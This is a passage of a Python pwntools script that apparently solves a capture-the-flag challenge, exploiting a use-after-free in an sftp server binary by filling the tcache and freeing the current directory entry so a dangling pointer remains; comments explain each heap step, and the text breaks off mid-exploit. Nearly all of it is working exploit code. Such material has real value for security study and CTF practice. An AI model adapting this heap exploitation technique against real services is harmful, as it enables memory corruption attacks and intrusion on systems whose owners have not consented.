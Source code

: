 ```python
	p.sendline("rm %s" % path)
	print p.recvuntil("sftp> ")

def rmdir(path):
	p.sendline("rmdir %s" % path)
	print p.recvuntil("sftp> ")

def symlink(oldpath, newpath):
	p.sendline("symlink %s %s" % (oldpath, newpath))
	print p.recvuntil("sftp> ")

REMOTE = False

context.update(arch='amd64')
cwd = './'
bin = os.path.join(cwd, 'sftp_uaf')

execute = [
    # 'b *0x155554fd315a',
    # 'continue'
]
execute = flat(map(lambda x: x + '\n', execute))

if REMOTE:
	p = remote('sftp.ctfcompetition.com', 1337)
else:
	p = process(bin, cwd=cwd, aslr=True)

auth()

#So first we create two directories.

mkdir("/home/c01db33f/pwd1")
mkdir("/home/c01db33f/pwd2")

#Now we go into the second directory

cd("/home/c01db33f/pwd1")

#Now we setup a file where we will leak from originally.

put("/home/c01db33f/pwd1/foobar", "a"*32)

#Now we prime the tcache so that it does not get in the way.

for i in range(0, 7):
    mkdir("/home/c01db33f/foobar_%i" % i)

for i in range(0, 7):
    rmdir("/home/c01db33f/foobar_%i" % i)


#Ok, now the tcache is full, so the directory_entry_t will go to the unsorted bin.

#lets delete the pwd. this frees the directory_entry object
#onto the unsorted bin. Ofc that corrupts the first 16 bytes of if,
#which is the parenty pointer, the type and half of the name.
#but, when find_entry()'ing from the pwd, these fields don't matter at all, so it is ok.

rmdir("/home/c01db33f/pwd1")

#now the directory_entry object has been freed, but pwd pointer has not changed.
#now we want to do a new allocation by targetting the existing /home/c01db33f/pwd1/foobar
```